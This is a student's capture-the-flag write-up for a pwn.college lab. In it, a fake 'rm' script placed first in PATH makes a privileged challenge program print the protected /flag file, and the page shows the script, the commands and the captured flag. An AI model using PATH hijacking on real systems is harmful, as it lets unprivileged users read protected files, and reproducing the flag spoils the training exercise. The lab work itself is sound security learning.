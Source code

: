 # hijacking commands
the objective for this command is to change the rm definition by replacing PATH with out own rm to get the flag.

## My solve
**Flag:** `pwn.college{Ete_1FLRSJHmq_pcbajyyRk-g6U.QX3cjM1wSN5AzNzEzW}`

this challenge was also a head scratcher, i first knew that we had to change rm definition and replave it so that instead of deleting the argument passed to it, it prints it but there were many errors along the way in making the script after a little help online i made the script such that it parses through all of its arguments and then prints the flag if the argument is flag instead of deleting it i then made rm executable and after setting the path i ran the command to get the flag.
```bash
rm
#!/bin/sh
for arg in "$@"; do
  if [ "$arg" = "/flag" ] || [ "$arg" = "/flag/" ]; then
    /bin/cat /flag
  fi
done
terminal
hacker@path~hijacking-commands:~$ chmod +x ./rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker /challenge/run
Trying to remove /flag...
pwn.college{Ete_1FLRSJHmq_pcbajyyRk-g6U.QX3cjM1wSN5AzNzEzW}
```

## What I learned
I gained a deeper understanding of path variables and scripting and how to use them to replave command defintions.

## References 
None.
